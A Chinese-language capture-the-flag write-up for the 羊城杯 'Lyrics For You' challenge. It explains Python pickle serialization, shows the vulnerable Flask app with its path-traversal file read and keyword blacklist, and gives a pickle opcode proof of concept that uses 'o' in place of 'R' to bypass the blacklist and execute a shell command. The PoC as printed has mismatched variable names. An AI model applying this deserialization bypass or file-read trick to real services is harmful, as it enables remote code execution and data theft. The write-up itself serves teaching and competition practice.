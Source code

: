 # 羊城杯 Lyrics For You WP

>~~本来想详细写一下但是发现已经有很多优秀文章了，所以不再斗胆一写了~~
>
>先放点关于pickle的文章
>
>[Pickle反序列化 - 枫のBlog](https://goodapple.top/archives/1069)
>
>[通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012?time__1311=n4%2BxnD0Dy7it0QYuq05%2BbWDODc0M%3DtkHe4D#toc-0)
>
>[从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势](https://zhuanlan.zhihu.com/p/89132768)

## 什么是pickle

[pickle](https://docs.python.org/3/library/pickle.html)是python的一个序列化模块，相较于原始的`marshal`模块会更常用。`pickling`是通过执行`dump()`和`dumps()` 函数将输入序列化为文件或字节流的过程，对应的`unpickling`则是通过`load()`和`loads`将文件或字节流中的序列号字符串转化为原始对象的过程

pickle基于`Python Virtual Machine`运行，实际上`pickling`的过程就是将python对象转化为`PVM`可以执行的二进制操作码`OpCode`的过程；而`unpickling`的过程就是调用`PVM`执行操作码重新构建原对象的过程。栈操作`stack oporations`是pickle的基础。

pickle有六版协议，但每次更新都是在添加新语句，所以协议具有向前兼容性。在`Python3.8`之后默认的协议是`Protocol 4`。不过仍然可以通过`dumps(op,0)`这样的方式指定使用旧协议

## Lyrics For You

羊城杯的一道主要考点在pickle反序列化的题

可以发现query lyrics参数可控，`?lyrics=/path/to/file`实现任意文件读

`?lyrics=/proc/self/cmdline` 回显 python3-u/usr/etc/app/app.py

查询该地址得到源码，同时通过`import`的信息可以读取`pickle.py`和`secret_key.py`

app.py:
```python
import os  
import random  
from config.secret_key import secret_code  
from flask import Flask, make_response, request, render_template  
from cookie import set_cookie, cookie_check, get_cookie  
import pickle  
  
app = Flask(__name__)  
app.secret_key = random.randbytes(16)  
  
  
class UserData:  
    def __init__(self, username):  
        self.username = username  
  
  
def Waf(data):  
    blacklist = [b'R', b'secret', b'eval', b'file', b'compile', b'open', b'os.popen']  
    valid = False  
    for word in blacklist:  
        if word.lower() in data.lower():  
            valid = True  
            break    return valid  
  
  
@app.route("/", methods=['GET'])  
def index():  
    return render_template('index.html')  
  
  
@app.route("/lyrics", methods=['GET'])  
def lyrics():  
    resp = make_response()  
    resp.headers["Content-Type"] = 'text/plain; charset=UTF-8'  
    query = request.args.get("lyrics")  
    path = os.path.join(os.getcwd() + "/lyrics", query)  
    try:  
        with open(path) as f:  
            res = f.read()  
    except Exception as e:  
        return "No lyrics found"  
    return res  
  
  
@app.route("/login", methods=['POST', 'GET'])  
def login():  
    if request.method == 'POST':  
        username = request.form["username"]  
        user = UserData(username)  
        res = {"username": user.username}  
        return set_cookie("user", res, secret=secret_code)  
    return render_template('login.html')  
  
  
@app.route("/board", methods=['GET'])  
def board():  
    invalid = cookie_check("user", secret=secret_code)  
    if invalid:  
        return "Nope, invalid code get out!"  
  
    data = get_cookie("user", secret=secret_code)  
    if isinstance(data, bytes):  
        a = pickle.loads(data)  
        data = str(data, encoding="utf-8")  
  
    if "username" not in data:  
        return render_template('user.html', name="guest")  
  
    if data["username"] == "admin":  
        return render_template('admin.html', name=data["username"])  
  
    return render_template('user.html', name=data["username"])  
  
  
if __name__ == "__main__":  
    os.chdir(os.path.dirname(__file__))  
    app.run(host="0.0.0.0", port=8080)
```

可以发现`/board`路由下有一个很刻意的`a = pickle.loads(data)`，只要构造cookie注入满足要求的data数据即可实现反序列化攻击

poc:
```python
import pickle

opcode = (b'''(cos  
system  
S"'ls / > /tmp/flag'"  
o.''')  
  
cookie = cookie_encode(  
("user", payload),  
"EnjoyThePlayTime123456"  
)

print(cookie)
```

用`o`代替`R`执行操作绕过`waf`，尝试直接反弹shell，但在靶机上没成功，后将查询结果写到`/tmp/flag`再利用一开始的任意读查看 *idea鸣谢柏师傅*

## 题外话

查wp的时候发现有类似原题 `SekaiCTF 2022 Bottle Poem`，发现`Bottle Poem`这题都是通过构造函数后dumps来实现的。用这样的方式dump出来的操作码就可以规避一些Protocol 1的可见字符过滤。~~但如果是这样未免有些过于为了出题而出题了~~
